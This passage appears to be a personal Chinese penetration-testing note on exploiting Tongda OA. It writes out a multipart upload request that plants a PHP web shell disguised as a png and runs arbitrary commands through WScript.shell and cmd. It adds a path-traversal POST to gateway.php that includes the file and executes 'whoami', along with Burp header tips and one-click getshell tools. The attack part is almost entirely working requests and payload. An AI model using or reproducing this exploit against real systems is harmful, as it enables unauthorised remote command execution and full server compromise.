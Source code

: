 ```
------WebKitFormBoundarybV3uJYAKOBdNiJQI
Content-Disposition: form-data; name="UPLOAD_MODE"

1
------WebKitFormBoundarybV3uJYAKOBdNiJQI
Content-Disposition: form-data; name="DEST_UID"

1
------WebKitFormBoundarybV3uJYAKOBdNiJQI
Content-Disposition: form-data; name="ATTACHMENT"; filename="png"
Content-Type: image/png

<?php
$command=$_POST['cmd'];
$wsh = new COM('WScript.shell');
$exec = $wsh->exec("cmd /c ".$command);
$stdout = $exec->StdOut();
$stroutput = $stdout->ReadAll();
echo $stroutput;
?>
------WebKitFormBoundarybV3uJYAKOBdNiJQI--
```

![image-20240424172323190](D:\Infiltration\笔记\note\图片\image-20240424172323190.png)访问路径/ispirit/interface/gateway.php抓包或者使用hackerbar进行POST请求

请求内容

```
json={"url":"../../general/../../attach/im/2404/1392961085.png"}&cmd=whoami
```

![image-20240424172450025](D:\Infiltration\笔记\note\图片\image-20240424172450025.png)

使用burp数据包头部需要加上

```
Content-Type: application/x-www-form-urlencoded
```



使用利群一键文件上传getshell

![image-20240424140913536](D:\Infiltration\笔记\note\图片\image-20240424140913536.png)



OA漏洞检测工具也可以一键getshell

![image-20240424141031405](D:\Infiltration\笔记\note\图片\image-20240424141031405.png)
